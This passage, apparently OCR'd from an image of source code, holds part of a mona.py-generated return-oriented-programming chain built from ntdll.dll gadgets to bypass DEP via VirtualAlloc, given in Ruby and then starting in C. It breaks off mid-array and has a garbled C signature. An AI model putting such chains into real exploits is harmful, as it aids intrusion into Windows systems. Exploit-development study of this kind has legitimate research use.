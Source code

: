 	0x7772c1f0, # skip 4 bytes [ntdll.dll] ** REBASED ** ASLR

	0x77695aca, # POP EBX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000001, # 0x00000001-> ebx

	0x776a7599, # POP EDX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00001000, # 0x00001000-> edx

	0x7772d241, # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000040, # 0x00000040-> ecx

	0x77695399, # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77665922, # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR

	0x77703e9e, # POP ESI # RETN [ntdll.dll] ** REBASED ** ASLR

	0x77662065, # JMP [EAX] [ntdll.dll]

	0x776fa30c, # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR

	0x00000000, # [-] Unable to find ptr to &VirtualAlloc()

	0x77661052, # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR

	0x776be871, # ptr to 'jmp esp' [ntdll.dll] ** REBASED ** ASLR

	].flatten.pack("V*")

	return rop_gadgets

	end

	# Call the ROP chain generator inside the 'exploit' function :

	rop_chain = create_rop_chain()

	*** [ C ] ***

	#define CREATE_ROP_CHAIN(name, ...) 

	int name##_length = create_rop_chain(NULL, ##__VA_ARGS__); 

	unsigned int name[name##_length / sizeof(unsigned int)]; 

	create_rop_chain(name, ##__VA_ARGS__);

	int create_rop_chain(unsigned int *buf, unsigned int )

	{

	// rop chain generated with mona.py - www.corelan.be

	unsigned int rop_gadgets[] = {

	0x7772c1f0, // POP EBP // RETN [ntdll.dll] ** REBASED ** ASLR

	0x7772c1f0, // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
